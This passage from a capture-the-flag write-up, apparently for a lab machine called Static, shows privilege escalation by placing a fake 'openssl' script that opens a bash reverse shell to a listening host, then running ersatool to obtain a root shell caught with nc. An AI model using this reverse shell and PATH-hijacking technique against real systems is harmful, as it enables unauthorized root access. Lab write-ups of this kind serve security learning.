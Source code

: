 

#### Exploit

With a shell on pki, I'll create a simple reverse shell script and save
it as `openssl`:



    www-data@pki:/tmp$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/192.168.254.2/4433 0>&1' > openssl
    www-data@pki:/tmp$ chmod +x openssl



With `nc` listening on web, I'll run `ersatool`, and when I try to
`create` with any `CN`, it hangs:



    www-data@pki:/tmp$ ersatool 
    # create
    create->CN=0xdf



That's because at this point it's trying to call `openssl`, and it got
my version instead of the real one. At `nc` on web, there's a root
shell:



    www-data@web:~$ /tmp/nc -lnvp 4433
    Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
    Ncat: Listening on :::4433
    Ncat: Listening on 0.0.0.0:4433
    Ncat: Connection from 192.168.254.3.
    Ncat: Connection from 192.168.254.3:45310.
    root@pki:/opt/easyrsa# id
    uid=0(root) gid=33(www-data) groups=33(www-data)



#### Code

The version of easy-rsa on Static is 3.0.6, which is a couple years old:



    root@pki:/opt/easyrsa# head ChangeLog
    Easy-RSA 3 ChangeLog

    3.0.6 (2019-02-01)
       * Certificates that are revoked now move to a revoked subdirectory (#63)
       * EasyRSA no longer clobbers non-EASYRSA environment variables (#277)
       * More sane string checking, allowingn for commas in CN (#267)
       * Support for reasonCode in CRL (#280)
       * Better handling for capturing passphrases (#230, others)
       * Improved LibreSSL/MacOS support
       * Adds support to renew certificates up to 30 days before expiration (#286)

